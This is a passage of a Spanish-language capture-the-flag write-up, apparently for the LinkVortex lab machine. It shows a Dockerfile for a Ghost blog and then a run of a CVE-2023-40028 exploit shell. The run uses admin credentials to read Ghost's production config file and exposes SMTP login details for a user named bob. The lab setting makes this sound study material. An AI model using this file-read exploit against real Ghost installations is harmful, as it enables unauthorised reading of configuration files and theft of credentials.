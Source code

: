 ```console
</html>
```

No tengo ni idea de donde estará este archivo, así que vamos a investigar un poco, podemos deducir que se está utilizando docker ya que en el código del proyecto hemos visto un `Dockerfile.ghost` y esto es vital porque este archivo nos revela que el archivo de configuración se debería encontrar en `/var/lib/ghost/config.production.json`
```console
cat -p Dockerfile.ghost
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

Y ahora sí, encontramos unas credenciales de un usuario llamado `bob` para SMTP.
```console
./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
```